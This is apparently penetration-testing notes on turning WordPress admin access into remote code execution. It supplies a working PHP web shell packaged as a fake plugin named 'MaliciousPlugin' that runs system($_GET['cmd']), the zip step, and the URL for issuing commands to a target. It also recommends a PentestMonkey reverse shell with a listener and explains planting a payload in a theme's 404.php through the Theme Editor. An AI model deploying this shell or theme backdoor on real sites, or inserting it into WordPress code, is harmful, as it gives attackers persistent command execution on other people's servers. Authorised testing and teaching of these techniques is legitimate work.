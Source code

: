Malicious WordPress Plugin Example:
1. Create the malicious PHP code file

    ```
    <?php
    /**
    * Plugin Name: MaliciousPlugin
    * Version: 1.2.3
    * Author: MaliciousPlugin
    * Author URI: http://maliciousplugin.fake
    * License: GPL2
    */

    system($_GET['cmd']);

    ?>
    ```

2. Zip the file

    ```
    zip malicious.zip /path/to/plugin.php
    ```

Once the plugin is zipped, it can be uploaded via the WordPress Admin plugins panel.
After being installed, it can be accessed at:\
`http(s)://target.site/wp-content/plugins/<name_of_zip_file>/<name_of_PHP_file>.php?cmd=<command>`

The name of the .zip file dictates the location of where the plugin is accessible at.\
For example, you name the zip file "MyPlugin", you would have to access it at:\
`http(s)://target.site/wp-content/plugins/MyPlugin/<name_of_PHP_file>.php`

You can use whatever PHP code you want within the plugin.\
A good payload to use would be a reverse-shell payload, like the one written by [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/).
Just make sure you change the IP address and the port in the reverse-shell and have a listener set up waiting for a callback.\
Once the plugin is installed and you click "Activate Plugin", you should get a callback on your listener.

#### WordPress Themes
Depending on the version of WordPress running, you may be able to modify the PHP code within a theme in the "Theme Editor" page.

A common theme page to modify is the "404.php" page that is displayed when a user attempts to view a webpage that doesn't exist.

You should take note of the theme name that the page you are modifying is a part of.\
For example, common WordPress themes are named after the year they came out, like "TwentyTwentyFour". This will be used for accessing
the payload later.

After modifying the code of the page you want to make malicious, and saving it. You can activate the payload by visiting the page in
the browser:
`http(s)://target.site/wp-content/themes/<theme_name>/<malicious_page_name>.php`
